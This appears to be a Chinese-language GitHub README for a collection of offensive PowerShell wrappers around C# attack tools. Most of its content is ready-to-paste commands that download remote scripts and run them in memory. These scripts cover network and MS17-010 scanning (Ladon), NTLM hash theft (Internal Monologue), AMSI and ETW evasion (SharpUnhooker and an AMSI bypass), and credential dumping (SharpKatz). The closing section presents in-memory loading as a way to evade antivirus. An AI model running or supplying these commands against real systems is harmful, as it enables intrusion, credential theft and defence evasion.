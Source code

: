 



## 前言：
windows平台上许多攻击性武器都是由C#编写的，并且可以轻松地转为powershell脚本，我将这个仓库作为一个集合，用来储存OffensiveCsharp的powershell代码
# 1.Invoke-Ladon
之前使用Ladon的Powershell版本的时候似乎不能把扫描内容输出到txt文本中，因此我对它做了一点小小的修改。

使用Gzip-compress 和 base64-Encode 转换Ladon的二进制文件然后base64编码解码 并通过[System.Reflection.Assembly]::Load($DecompressedDecodedBinary)在powershell中加载Ladon的二进制文件
## 使用方法：

注意参数中需要加双引号



#### 1.扫描在线主机

```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-Ladon/main/Invoke-Ladon.ps1);
invoke-ladon "192.168.1.8/24 OnlinePC" > OnlinePC.txt
```
![image](https://user-images.githubusercontent.com/89376703/197330353-73fb556c-b59b-43e9-a3ac-bc3e28d15644.png)




#### 2.扫描漏洞MS17017



```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-Ladon/main/Invoke-Ladon.ps1);
invoke-ladon "192.168.1.8/24 MS17010" > MS17010.txt
```
![image](https://user-images.githubusercontent.com/89376703/197330367-387b676a-6a4c-4ea9-951d-56aac29229e4.png)




具体使用方法请参考：https://github.com/k8gege/Ladon

或者直接把调用命令放在脚本最后一行

![image](https://user-images.githubusercontent.com/89376703/197330378-fff9e947-3c5e-47b8-b4ae-02576fdee671.png)
# 2.Invoke-Internalmonologue

Internalmonologue

Internalmonologue：在不接触 LSASS 的情况下检索 NTLM 哈希:https://github.com/eladshamir/Internal-Monologue

用法：
```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-SharpOffensive/main/Invoke-Internalmonologue.ps1)
```

# 3.Invoke-SharpUnhook.ps1
SharpUnhook用于规避AMSI的内存检测、ETW的监控同时hook了ring3的API，或许它仍然会被高级防病毒检测，
这只是一个例子，不要依赖它:https://github.com/GetRektBoy724/SharpUnhooker

用法：
远程加载
```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-SharpOffensive/main/Invoke-SharpUnhook.ps1)
```
本地加载

```
Import-Module .\Invoke-SharpUnhook.ps1
```
![image](https://user-images.githubusercontent.com/89376703/200115967-953b394b-90ad-477c-b12c-7370c73fe667.png)

# 4.DelegateAmzzBypass.ps1

DelegateAmzzBypass.ps1 bypass amsi脚本
```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/javelin266/Invoke-SharpOffensive/main/DelegateAmzzBypass.ps1)

#然后导入sharpkatz.ps1 试试效果
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/javelin266/Invoke-SharpOffensive/main/Invoke-SharpKatz.ps1)
Invoke-SharpKatz
```
![QQ图片20230617202602](https://github.com/javelin266/Invoke-SharpOffensive/assets/76693577/e52f9666-98cc-4cbe-a06b-39c46658de42)



### 总结

使用某些方法可以封装powershell的脚本，让powershell在内存中运行，以此规避一些防病毒软件的查杀，这样就防止从Ladon的源码进行免杀处理的操作,对于powershell的免杀，有时候还要考虑规避AMSI的问题。
